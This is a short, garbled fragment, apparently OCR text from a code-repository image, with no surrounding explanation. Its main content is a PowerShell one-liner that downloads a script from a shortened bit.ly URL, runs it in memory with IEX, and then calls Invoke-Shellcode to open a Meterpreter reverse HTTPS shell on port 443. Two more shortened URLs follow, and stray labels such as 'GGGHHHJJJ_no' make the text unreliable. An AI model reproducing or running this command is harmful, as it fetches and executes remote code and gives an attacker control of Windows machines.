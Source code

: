check
=====
GGGHHHJJJ_no

FocusmazmanFocus


RunIEX (New-Object Net.WebClient).DownloadString('http://bit.ly/14bZZ0c');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run

http://fur.ly/b357
http://bit.ly/14bZZ0c
